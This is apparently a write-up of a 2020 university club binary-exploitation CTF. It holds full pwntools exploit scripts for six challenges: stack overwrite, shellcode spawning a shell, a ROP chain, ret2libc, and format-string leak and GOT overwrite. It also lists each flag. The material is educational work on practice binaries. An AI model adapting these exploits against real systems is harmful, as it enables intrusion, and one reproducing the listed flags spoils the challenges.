

# TAMU Cybersecurity Club PwnCTF

In November 2020 I put on a small CTF themed around binary exploitation for Texas A&M students.  Challenge sources are available at [tamucybersec/pwn-ctf-2020](https://github.com/tamucybersec/pwn-ctf-2020).  

## pwn1

```text
❯ checksec chall
[*] '/home/sky/Documents/binex/variable_overwrite/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```


```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	setvbuf(stdout, NULL, _IONBF, 0);
	int can_read_flag = 0;
	char name[64];

	printf("Enter your name: ");
	gets(name);
	if (can_read_flag == 0x1){
		printf("Hi %s!\n",name);
		FILE *f;
		f = fopen("flag.txt","r");
		if (f == NULL){
			printf("flag.txt doesn't exist, try again on the server");
			exit(0);
		}
		char flag[0x32];
		fgets(flag,0x32,f);
		printf("%s\n",flag);
		fflush(stdout);
	} else {
		printf("Sorry, you aren't authorized!\n");
	}
}
```
We've got a few extra variables in the stack which shift the organization around a bit so we can't just offset our payload by 64.  

```text
[0x000010c0]> pdf@main
            ; DATA XREF from entry0 @ 0x10dd
┌ 248: int main (int argc, char **argv, char **envp);
│           ; var char *var_90h @ rbp-0x90
│           ; var char *s @ rbp-0x50
│           ; var file*stream @ rbp-0x10
│           ; var uint32_t var_4h @ rbp-0x4
...
│           0x000011e6      488d45b0       lea rax, [s]
│           0x000011ea      4889c7         mov rdi, rax                ; char *s
│           0x000011ed      b800000000     mov eax, 0
│           0x000011f2      e869feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x000011f7      837dfc01       cmp dword [var_4h], 1
│       ┌─< 0x000011fb      0f8589000000   jne 0x128a
│       │   0x00001201      488d45b0       lea rax, [s]
...
```

The address of our can_read_flag variable is `$rbp-0x4` and the address we're writing to (s) is `$rbp-0x50`.  `0x50-0x4 = 76` which means we need to write 76 bytes before we start overflowing into can_read_flag.  It's also worth noting that we need to write binary 0x00000001 and not the ascii value "1" (which is 0x31).  To do this we can use the pwntools function `p32` which packs an integer into a 32 bit bytestring.  


```python
#!/usr/bin/env python3

from pwn import *
import re

context.log_level = logging.ERROR

exe = ELF("./chall")

context.binary = exe
context.terminal = ["termite","-e"]

def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        return remote("ctf.cybr.club", 2000)


def main():
    r = conn()

    r.sendline(b"A" * 76 + p32(1))

    print(re.search("(FLAG{.*})",r.recvall().decode()).group(1))


if __name__ == "__main__":
    main()

```
flag: `FLAG{v4r14bl3_0v3rwr173_cea492}`

## pwn2

```text
❯ checksec chall
[*] '/home/sky/Documents/binex/stack_exec/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

```text
#include <stdio.h>
#include <stdlib.h>


int vuln() {
	char data[128];
	printf("What would you like to store in memory today (%x)?\n", &data);
	gets(data);
}

int main(){
	setvbuf(stdout, NULL, _IONBF, 0);
	vuln();
}
```

NX is off which means that we can execute instructions on the stack and the program very kindly tells us the location we're writing to.  Our goal here is to write shellcode onto the stack and then overwrite the return pointer to the address we received earlier.  

### shellcode
Wikipedia says 
```text
In hacking, a shellcode is a small piece of code used as the payload in the exploitation of a software vulnerability. It is called "shellcode" because it typically starts a command shell from which the attacker can control the compromised machine, but any piece of code that performs a similar task can be called shellcode. Because the function of a payload is not limited to merely spawning a shell, some have suggested that the name shellcode is insufficient.[1] However, attempts at replacing the term have not gained wide acceptance. Shellcode is commonly written in machine code. 
```

What we're going to be using is linux amd64 instructions which execute `execve("/bin/sh")`.  I use pwntools to generate this for me but [shell-storm](http://shell-storm.org/shellcode/) is also a good resource.  


```python
#!/usr/bin/env python3

from pwn import *
import re

context.log_level = logging.ERROR

exe = ELF("./chall")

context.binary = exe
context.terminal = ["termite","-e"]

def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        return remote("ctf.cybr.club", 2001)


def main():
    r = conn()
    stack_addr = int(re.search("\((.*)\)", r.readline().decode('ascii')).group(1),16)
    payload = asm(shellcraft.i386.linux.sh())
    payload += b"A" * (140 - len(payload)) # fill data buffer
    payload += p32(stack_addr)
    r.sendline(payload)
    r.sendline("cat flag.txt;exit;")
    print(re.search("(FLAG{.*})",r.recvall().decode()).group(1))


if __name__ == "__main__":
    main()
```

flag: `FLAG{3x3cu74bl3_574ck_11d512}`

## pwn3

We don't get challenge sources on pwn3 so its time to learn to love reversing.  I'll be using [Ghidra](https://ghidra-sre.org/) to reverse these.  

```text
❯ checksec chall
[*] '/home/sky/Documents/binex/rop_win/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



Well, that sure looks suspicious.  We have a read_flag function which we should keep note of but also `unlock_one`, `unlock_two`, and `unlock_three`.  


```c
void read_flag(void)

{
  char local_42 [50];
  FILE *local_10;
  
  if ((((file_found != 0) && (unlocked_one != 0)) && (unlocked_two != 0)) && (unlocked_three != 0))
  {
    local_10 = fopen("flag.txt","r");
    if (local_10 == (FILE *)0x0) {
      printf("flag.txt doesn\'t exist, try again on the server");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    fgets(local_42,0x32,local_10);
    puts(local_42);
    fflush(stdout);
    return;
  }
  printf("You aren\'t allowed to read the flag!");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

Looks like we get the flag if four global variables are set to true.  

```c
void unlock_one(void)

{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  *(undefined4 *)(iVar1 + 0x2d52) = 1;
  return;
}
void unlock_two(int param_1)

{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  if (param_1 == 0x12345678) {
    *(undefined4 *)(iVar1 + 0x2d3c) = 1;
  }
  return;
}
void unlock_three(int param_1,int param_2)

{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  if ((param_1 == 0x1e9c66e6) && (param_2 == -0x5250edee)) {
    *(undefined4 *)(iVar1 + 0x2d1d) = 1;
  }
  return;
}
void find_file(char *param_1)

{
  int iVar1;
  
  iVar1 = strcmp(param_1,"flag.txt");
  if (iVar1 == 0) {
    file_found = 1;
  }
  return;
}
```

So we have four functions which we need to call with controlled arguments.  This is a 32-bit binary so all we need to control is the stack.  Fortunately, there is a trivial buffer overflow.  

```c
void vuln(void)

{
  char local_2c [36];
  
  puts(
      "Howdy! We have a function to read the flag but you aren\'t allowed to use it.  Can youconvince me otherwise?"
      );
  gets(local_2c);
  return;
}
```

gg pwntools rop chain builder really suits my desire to not do work lol.  

```python
#!/usr/bin/env python3

from pwn import *
import re

context.log_level = logging.ERROR

exe = ELF("./chall")

context.binary = exe
context.terminal = ["termite","-e"]


def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        return remote("ctf.cybr.club", 2002)


def main():
    r = conn()


    flag_txt = next(exe.search(b"flag.txt"))

    rop = ROP(exe)

    rop.find_file(flag_txt)
    rop.unlock_one()
    rop.unlock_two(0x12345678)
    rop.unlock_three(0x1e9c66e6, 0xadaf1212)
    rop.read_flag()

    payload = cyclic(44)
    payload += rop.chain()
    r.sendline(payload)

    print(re.search("(FLAG{.*})",r.recvall().decode()).group(1))


if __name__ == "__main__":
    main()
```

flag: `FLAG{r37urn_0r13n73d_pr06r4mm1n6_e68a48}`

## pwn4

```text
❯ checksec chall
[*] '/home/sky/Documents/binex/rop_ret2libc/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
```c
void vuln(void)

{
  char local_28 [32];
  
  puts("This binary does nothing; good luck getting the flag now!\n");
                    /* Smashes stack using local_28@0x00401142 (+0,1,40) */
  gets(local_28);
  return;
}
```

Nothing too interesting here in the binary, but we're provided the server libc version which means that we can pretty easily perform a return-to-libc attack.  Since ASLR is enabled on the server we'll need to leak the address libc is loaded into.  

### leaking libc address

We have control over the return pointer so leaking the libc address is fairly trivial.  What we need to do is leak the address of a symbol in libc and then subtract the offset we know that symbol is inside libc.  What remains is the beginning of libc which is the address that it starts at.  

```python
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]

payload = offset * b"A" + p64(pop_rdi) + p64(elf.symbols['__libc_start_main']) + p64(elf.plt['puts']) + p64(elf.symbols['main'])

p.sendline(payload)
p.recvline()
p.recvline()
libc_start_address = int.from_bytes(p.recvline().rstrip(), byteorder="little")
libc.address = libc_start_address - libc.sym["__libc_start_main"]
print("Address of libc %s " % hex(libc.address))
```

### exploiting with libc

Nothing too interesting in this part.  We know the address libc is loaded at which means we know the location of `system` and the string `"/bin/sh"` which means we can just set up arguments and then call `system` to get a shell.  

```python
binsh = next(libc.search(b"/bin/sh"))
system = libc.symbols["system"]
print("/bin/sh = ",hex(binsh))
print("system = ", hex(system))

payload = offset * b"A" + p64(pop_rdi) + p64(binsh) + p64(system) + p64(pop_rdi) + p64(binsh) + p64(system) # i uh need to do this twice idk why pls dont ask me why
p.sendline(payload)
```

### putting it together

```python
#!/usr/bin/env python3

from pwn import *
import re

context.log_level = logging.ERROR

elf = ELF("./chall")
libc = ELF("./libc.so.6")

rop = ROP(elf)

context.binary = elf

def conn():
    if args.LOCAL:
        libc = ELF("/usr/lib/libc.so.6")
        return (libc, elf.process())
    else:
        libc = ELF("./libc.so.6")
        return (libc, remote("ctf.cybr.club",2003))


def main():
    (libc, p) = conn()
    offset = 40


    pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]

    payload = offset * b"A" + p64(pop_rdi) + p64(elf.symbols['__libc_start_main']) + p64(elf.plt['puts']) + p64(elf.symbols['main'])

    p.sendline(payload)
    p.recvline()
    p.recvline()
    libc_start_address = int.from_bytes(p.recvline().rstrip(), byteorder="little")
    libc.address = libc_start_address - libc.sym["__libc_start_main"]
    print("Address of libc %s " % hex(libc.address))


    binsh = next(libc.search(b"/bin/sh"))
    system = libc.symbols["system"]
    print("/bin/sh = ",hex(binsh))
    print("system = ", hex(system))

    payload = offset * b"A" + p64(pop_rdi) + p64(binsh) + p64(system) + p64(pop_rdi) + p64(binsh) + p64(system) # i uh need to do this twice idk why pls dont ask me
    p.sendline(payload)


    p.sendline("cat flag.txt;exit")

    print(re.search("(FLAG{.*})",p.recvall(timeout=.1).decode()).group(1))


if __name__ == "__main__":
    main()
```

flag: `FLAG{r37urn_70_l1bc_227ade}`

## pwn5

Because I am dumb (and didn't get these reviewed lol) there is a trivial unintended solution.  

```text
❯ strings chall | grep "FLAG"
FLAG{f0rm47_57r1n6_l34k_69cd8e}
```

Now, i'll go ahead and cover the intended solution anyways.  

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	setvbuf(stdout, NULL, _IONBF, 0);
	char* val1 = "not the flag :(";
	char* val2 = "still not the flag";
	char* val3 = "i dont think this is right";
	char* val4 = "doesn't look like it";
	char* val5 = "i dont see the flag format";
	char* val6 = "not quite there yet";
	char* val7 = "redacted (but this is the flag on the server)";
	char* val8 = "i think you went too far";
	char* name = malloc(50);
	printf("*it sounds like this cave is echoing... what do you want to say?*");
	fgets(name, 50, stdin);
	printf(name);
	free(name);
}
```

Our input string is used as the first argument to printf which means that this binary is vulnerable to a format string evaluation attack.  The flag is just sitting on the stack which means if we just write a bunch of `%s` (which interpolates a string) it will eventually leak the flag (or in theory crash if anything on stack isn't a legitimate address but this one doesn't)

```text
❯ ./chall
*it sounds like this cave is echoing... what do you want to say?*%s.%s.%s.%s.%s.%s.%s.%s.%s.%s.%s
s.%s.%s.%s.%s.%s.%s.%s.%s.%s.%s
.(null)..%s.%s.%s.%s.%s.%s.%s.%s.%s.%s.%s
.MEU..%s.%s.%s.%s.%s.%s.%s.%s.%s.%s.%s
.i think you went too far.FLAG{f0rm47_57r1n6_l34k_69cd8e}.not quite there yet.i dont see the flag format
```

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall")

context.binary = exe


def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        return remote("18.188.231.247", 2004)


def main():
    r = conn()

    # good luck pwning :)
    r.sendline("%9$s")
    print(re.search("(FLAG{.*})",r.recvall().decode('ascii')).group(1))


if __name__ == "__main__":
    main()
```

flag: `FLAG{f0rm47_57r1n6_l34k_69cd8e}`

## pwn6

```text
❯ checksec chall
[*] '/home/sky/Documents/binex/format_string_write/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Like pwn4 we also get the libc binary that the server is using but the vulnerability is a little different.  

```c
void main(void)

{
  undefined4 uVar1;
  undefined4 uVar2;
  undefined *puVar3;
  
  puVar3 = &stack0x00000004;
  uVar2 = 0;
  uVar1 = 2;
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Howdy!");
  printf("You might find this useful: %x\n",puts,uVar1,uVar2,puVar3);
  do {
    vuln();
  } while( true );
}

void vuln(void)

{
  char local_4c [68];
  
  system("printf \"Hey!  I\'ll repeat anything you say! \n\"");
  fgets(local_4c,0x40,stdin);
  printf(local_4c);
  return;
}
```

The vuln function has a trivial format string vulnerability, who would've thought lol.  A little more interesting, the main function tells us the address of puts.  

### a little background on the GOT

So there are two different ways to load libraries in a binary.  You can **statically link** them (self contained, each binary contains all code in a single file) or you can **dynamically link** them (default in most compilers, it will map the binary file in memory at runtime).  Now, if you're loading files into a random offset at runtime you can't exactly determine what addresses to call at compile-time.  The technique which allows looking up these addresses up at runtime is known as **relocation** and is handled by the linker.  To manage this we have a couple relevant sections of the ELF.  

#### .plt

The PLT (or Procedure Linkage Table) is a collection of stumbs which jump to the appropriate location in the `.got.plt` and and then if needed tell the linker to resolve the address.  

#### .got

The GOT is the table of addresses which point to symbols in dynamically loaded libraries. 

#### .got.plt

the `.got.plt` is also a table of addresses -- so what's the difference between it and the `.got`?  The `.got.plt` contains addresses to either the `.got` (if we have already looked up that symbol) or back to the `.plt` (if we need to tell the linker to grab the address for it)

### how do we take advantage of this to exploit?

Well, the implication here is that `.got` and `.got.plt` are updated at runtime (unless you have full RELRO on but this binary doesn't) which means they are writable.  They are also located at a constant address in the binary.  As the final piece of this puzzle, you can use the `%n` format specifier to write arbitrary memory to arbitrary locations.  Wild, huh?  

### actually using the %n format specifier

So, the %n format specifier writes the number of characters which have already been written to the pointer in matching argument.  You can tell printf to right-justify a value with arbitrary length which means you can make %n write whatever you'd like and we have stack control which means we can do that wherever we'd like.  Like most format specifiers you can also use it like `%hn` to only write a short (two bytes) instead.  By breaking a write into two like this you can avoid having to write several billion characters to stdout.  


### the actual exploit

So, what we're doing here is overwriting the GOT value for `printf` to actually be `system`.  After that we can just type `/bin/sh` into the input and it'll call `system` instead of `printf`.  

```python
#!/usr/bin/env python3

from pwn import *
import re

context.log_level = logging.ERROR

elf = ELF("./chall")
libc = ELF("./libc.so.6")

rop = ROP(elf)

context.binary = elf
context.terminal = ['termite','-e']
def conn():
    if args.LOCAL:
        libc = ELF("/usr/lib32/libc.so.6")
        return (libc, elf.process())
    else:
        libc = ELF("./libc.so.6")
        return (libc, remote("ctf.cybr.club",2005))


def main():
    (libc, p) = conn()

    p.recvline()
    puts_address = int(p.recvline().decode('ascii').split(": ")[1],16)
    libc.address = puts_address - libc.sym['puts']
    lower = (libc.sym['system'] - 8) & 0xffff
    upper = libc.sym['system'] >> 16

    payload = p32(elf.got['printf']) + p32(elf.got['printf']+2) # add the addresses for both halves of printf to stack
    payload += "%{}x".format(lower).encode('ascii') + "%{}$hn".format(4).encode('ascii') # write to the first half, the %x is justified by the appropriate number to be equal to the lower half of system's address
    payload += "%{}x".format(upper - lower - 8).encode('ascii') + "%{}$hn".format(5).encode('ascii') # write to the upper half, the %x is justified in a similar way but we also need to subtract the lower value because that is still taken into account on the second %n.  If lower were larger than upper we could do the exact same thing in reverse
    
    p.recvuntil("Hey!  I'll repeat anything you say! \n")
    p.sendline(payload)
    p.recvuntil("Hey!  I'll repeat anything you say! \n")
    p.sendline("/bin/sh/")

    p.sendline("cat flag.txt;exit")
    print(re.search("(FLAG{.*})",p.recvall(timeout=.1).decode()).group(1))

    p.close()


if __name__ == "__main__":
    main()
```

flag: `FLAG{f0rm47_57r1n6_wr173_a357ac}`


